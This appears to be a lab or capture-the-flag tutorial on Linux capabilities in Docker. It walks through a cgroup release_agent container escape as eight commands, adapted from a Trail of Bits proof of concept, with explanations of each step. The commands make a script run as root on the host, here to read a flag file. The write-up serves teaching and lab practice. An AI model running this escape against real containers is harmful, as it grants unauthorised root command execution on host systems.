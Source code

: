 ## What is Capabilities?
Capabilities in Linux are root permissions given to certain processes or executables within the Linux kernel. These privileges allow for the granular assignment of privileges. These capabilities determine what permissions a Docker container has to the operating system. Docker containers can run in two modes:
- **User (Normal) mode**: Only restricted to Docker engine.
- **Privileged mode**: Able to access and run command on host OS as root.
## Viewing Container Capabilities
We can use utility such as `capsh` which comes with the `libcap2-bin` package to list the capabilities our container has. For example:
```bash
capsh --print
```
This command would return capabilities and we might be able to see something of interest, for eample:
```bash
Current: = cap_chown, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid,cap_setuid
```
## Exploiting Capabilities
The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.), which details the inner workings of this exploit well.
```
1. mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
2. echo 1 > /tmp/cgrp/x/notify_on_release
3. host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
4. echo "$host_path/exploit" > /tmp/cgrp/release_agent
5. echo '#!/bin/sh' > /exploit
6. echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
7. chmod a+x /exploit
8. sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

For the first step: We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses `cgroups` to manage processes on the operating system. Since we can manage `cgroups` as root on the host, we'll mount this to `/tmp/cgrp` on the container.

For the second step: For our exploit to execute, we'll need to tell the kernel to run our code. By adding `1` to `/tmp/cgrp/x/notify_on_release`, we're telling the kernel to execute something once the `cgroup` finishes.

For the third step: We find out where the container's files are stored on the host and store it as a variable

For the fourth step: We then echo the location of the container's files into our `/exploit` and then ultimately to the `release_agent` which is what will be executed by the `cgroup` once it is released.

For the fifth step: Let's turn out exploit into a shell on the host.

For the sixth step: Execute a command to echo the host flag into a file named `flag.txt` in the container once `/exploit` is executed.

For the seventh step: Make our exploit executable!

For the eight step: We create a process and store that into `/tmp/cgrp/x/cgroup.procs`. When the process is released, the contents will be executed.